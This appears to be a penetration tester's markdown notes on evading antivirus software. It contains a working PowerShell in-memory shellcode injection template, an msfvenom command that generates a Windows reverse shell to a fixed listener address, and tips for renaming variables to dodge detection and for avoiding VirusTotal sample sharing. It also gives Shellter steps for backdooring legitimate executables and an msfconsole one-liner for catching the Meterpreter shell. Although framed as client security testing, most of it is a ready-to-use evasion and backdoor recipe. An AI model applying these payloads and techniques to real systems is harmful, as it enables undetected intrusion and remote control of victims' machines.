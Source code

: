 ```yaml
---
tags: meterpreter, shellter
---
```

## Testing for AV Evasion

> As a first step when testing AV products, we should verify that the antivirus is working as intended. Can do so by using a payload generated by Metasploit and scanning it with the AV.

### If we know the specifics of client's AV vendor

Build a dedicated VM that resembles the customer's environment as closely as possible. 

Make sure to disable sample submission!!

### If we don't know the specifics of client's AV vendor

Avoid using VirusTotal, as it sends submitted samples to AV vendors which have an active membership.

Use [AntiScan.Me](https://antiscan.me/) as an alternative to VirusTotal. 4 free scans per day.

## Evading AV with Thread Injection

Example: Remote Process Memory Injection targeting the current executing process, x86 PowerShell Interpreter.

Pros of executing a PS script:
- PS can directly interact with Windows API, allowing the implementation of the in-memory injection process in a PS script
- Compared to PE, it is more difficult for AV to determine if a PS script is malicious as it's run inside an interpreter and the script itself isn't executable code
- Even if the script is marked as malicious, it can be easily altered (e.g. variable names, comments, logic) without having to recompile anything

Basic template PS script for in-memory injection: (insert generated payload there)
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
 Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
 
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i),
$sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Generate reverse shell payload for above script using msfvenom:
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc`

If script is detected by AV, can try changing variable names (`$sc`, `$winfunc`, `-Name "Win32"` -> `"iWin32"`)

Note: AntiScan.Me does not accept ps1 files, so VirusTotal must be used instead

## Automating the Process

[Shellter](https://www.shellterproject.com/): A (free) dynamic shellcode injection tool for bypassing AV. Backdoors a valid non-malicious executable file with malicious shellcode payload.

Install Shellter:
`apt-cache search shellter`
`sudo apt install shellter`

Install Wine:
`sudo apt install wine`
`dpkg --add-architecture i386 && apt-get update && apt-get install wine32`
(Shellter is designed to run on Windows OS. Wine is a compatibility layer capable of running Win32 applications.)

Run Shellter:
`shellter`

Shellter modes:
- Manual: launch the PE we want to use for injection and allow us to manipulate it on a more granular level
- Auto

Stealth mode: If enabled, will attempt to restore the execution flow of the PE after our payload has been executed

Example: Use the Meterpreter_Reverse_TCP \[stager] payload
Set listener on Kali:
`msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"`


